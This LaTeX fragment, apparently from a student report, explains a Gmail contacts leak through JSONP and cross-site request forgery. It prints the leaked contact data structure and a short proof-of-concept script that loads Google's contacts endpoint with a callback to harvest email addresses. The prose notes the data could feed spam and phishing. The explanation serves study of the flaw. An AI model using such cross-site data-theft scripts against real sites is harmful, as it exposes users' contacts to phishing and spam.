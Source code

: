 \documentclass[a4paper,11pt,openany]{report}
\begin{document}
\begin{figure}[h!t]
  \begin{multicols}{2}
  \begin{verbatim}
google ({
    Success: true,
    Errors: [],
    Body: {
        AuthToken: {
            Value: '*****'
        },
        Contacts: [
        {
            Id: '***',
            Email: 'foo@gmail.com',
            Affinity: '***',
            Groups: [
            {
                id: '^Freq',
                value: '***'
            }
            ],
            Addressess: [],
            Phoness: [],
            Imss: []
        }, {}, {}, ...
        // Lots more contacts here
        ]
    }
});
  \end{verbatim}
  \end{multicols}
  \caption{The JavaScript callback function that returned a data structure (object) with all email contacts~\cite{oreilly}.}
  \label{figure:callback_js}
\end{figure}
  
  As you can see in Figure~\ref{figure:callback_js}, several fields were accessible. The affinity field told the attacker how important 
  the contact was to that user, making it a more vulnerable target for phishing attempts~\cite{oreilly}. 
  
  \begin{figure}[h!t]
  \begin{verbatim} 
<script type="text/javascript">
    function google(data){
        var emails, i;
        for (i = 0; i < data.Body.Contacts.length; i++) {
            mails += "<li>" + data.Body.Contacts[i].Email + "";
        }
        document.write("<ol>" + emails + "</ol>");
    }
</script>

<script type="text/javascript" 
        src="http://docs.google.com/data/contacts?out=js&show=ALL&psort=Affinity
             &callback=google&max=99999"></script>
  \end{verbatim}
  \caption{A simple JavaScript that calls the function in Figure~\ref{figure:callback_js} and writes the received data to a file\cite{gmail_contact_list_csrf2}.}
  \label{figure:callback}
  \end{figure}
  
  The code in Figure~\ref{figure:callback} does a very basic operation. The attacker could as well send the data to 
  another program that would for instance spam all contacts in the list or creating network connections for better 
  relevance in phishing attempts.
  
\end{document}
